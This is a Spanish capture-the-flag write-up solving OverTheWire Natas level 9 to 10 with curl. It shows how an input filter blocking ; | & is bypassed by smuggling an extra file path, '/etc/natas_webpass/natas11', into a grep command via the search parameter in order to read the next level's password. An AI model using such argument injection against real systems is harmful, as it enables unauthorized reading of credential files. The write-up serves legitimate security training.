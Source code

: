 ```yaml
---
title: OverTheWire - Natas 9 -> 10 (sin navegador)
layout: post
post-image: /assets/images/gatohacker1.jpg 
description: La resolución de Natas 9 -> 10 sin el uso de un navegador web.
tags:
- OverTheWire
- Natas
- post
- writeups
---
```

# Información
---

> Las contraseñas cambian cada cierto tiempo, existe la posibilidad de que esta contraseña ya no sea válida

```
Username: natas10
Password: nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu
URL:      http://natas10.natas.labs.overthewire.org
```

# Solución
---

Primero ejecutamos el comando curl con el parámetro `-u` para indicar las credenciales. 

```bash
curl -u natas10:nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu http://natas10.natas.labs.overthewire.org/
```

![](/images/images-otw-natas/natas9-10-1.png)

Vemos que existe un buscado y su código fuente que se almacena en `index-source.html`.

![](/images/images-otw-natas/natas9-10-2.png)

Si vamos al archivo no podremos ver nada.

```bash
curl -u natas10:nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu http://natas10.natas.labs.overthewire.org/index-source.html
```

![](/images/images-otw-natas/natas9-10-3.png)

Esto se soluciona instalando la herramienta `html2text` con el comando `sudo apt install html2text`.

 ```bash
curl -u natas10:nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu http://natas10.natas.labs.overthewire.org/index-source.html | html2text
 ```

![](/images/images-otw-natas/natas9-10-4.png)

Se está haciendo una lista negra con los carácteres `; | &`, es decir, si escribimos estos carácteres en la búsqueda la página nos dará un error.

![](/images/images-otw-natas/natas9-10-5.png)

Lo que ingresemos en la búsqueda se guardará en la variable `$key` y se agregará al comando grep.

![](/images/images-otw-natas/natas9-10-6.png)

Para resolver este reto y obtener la contraseña primero debemos entender cómo funciona el comando grep.

Tenemos un archivo llamado `archivo1.txt` que tiene la palabra `hola!`.

![](/images/images-otw-natas/natas9-10-7.png)

Y otro archivo llamado `archivo2.txt` que contiene la palabra `chao!`.

![](/images/images-otw-natas/natas9-10-8.png)

Si buscamos la letra `a` con el comando grep sobre ambos archivo obtenemos las palabras enteras, y grep nos indica el nombre del archivo al que pertece cada palabra.

```bash
grep -i a archivo1.txt archivo2.txt
```

![](/images/images-otw-natas/natas9-10-9.png)

Esta parte marcada en rojo es la que nosotros controlamos en la búsqueda de la página.

![](/images/images-otw-natas/natas9-10-10.png)

Si buscamos una letra que no aparece en ningún archivo, entonces no nos mostrará nada. Lo mismo si filtramos una letra que aparece solo en un archivo.

![](/images/images-otw-natas/natas9-10-11.png)

Con esto en mente filtraremos por la letra `a`, y agregaremos el archivo `/etc/natas_webpass/natas11` que contiene la contraseña para el siguiente nivel.

```bash
curl -u natas10:nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu http://natas10.natas.labs.overthewire.org/ -d 'needle=a /etc/natas_webpass/natas11&submit=hola'
```

![](/images/images-otw-natas/natas9-10-12.png)

Pero lo página nos muestra mucho texto. Enviaremos todo este output hacia un archivo cualquiera con el nombre `natas10.txt`.

```bash
curl -u natas10:nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu http://natas10.natas.labs.overthewire.org/ -d 'needle=a /etc/natas_webpass/natas11&submit=hola' > natas10.txt
```

![](/images/images-otw-natas/natas9-10-19.png)

Y ejecutaremos el comando head para observar solo las primeras lineas de la respuesta.

```bash
head -n 30 natas10.txt
```

Notamos que en la respuesta no se encuentra la contraseña de natas11, esto es porque la contraseña no contiene la letra `a`. Seguiremos reemplazando la letra en nuestro comando de curl, hasta que nos devuelva la contraseña.

![](/images/images-otw-natas/natas9-10-14.png)

Realizamos el mismo procedimiento pero cambiamos la letra `a` por una `b`.

```bash
curl -u natas10:nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu http://natas10.natas.labs.overthewire.org/ -d 'needle=b /etc/natas_webpass/natas11&submit=hola' > natas10.txt
```

![](/images/images-otw-natas/natas9-10-15.png)

Nuevamente no vemos nada porque lo contraseña de natas11 no contiene la letra `b`.

```bash
head -n 30 natas10.txt
```

![](/images/images-otw-natas/natas9-10-16.png)

Realizamos el mismo procedimiento pero cambiamos la letra `b` por la letra `c`.

```bash
curl -u natas10:nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu http://natas10.natas.labs.overthewire.org/ -d 'needle=c /etc/natas_webpass/natas11&submit=hola' > natas10.txt
```

![](/images/images-otw-natas/natas9-10-17.png)

Ejecutamos el comando head y esta vez sí vemos la contraseña de natas11.

```bash
head -n 30 natas10.txt
```

![](/images/images-otw-natas/natas9-10-18.png)


# Contraseña
---

`U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK`

---

## [Anterior](/level-8-9)
## [Siguiente](/level-10-11)
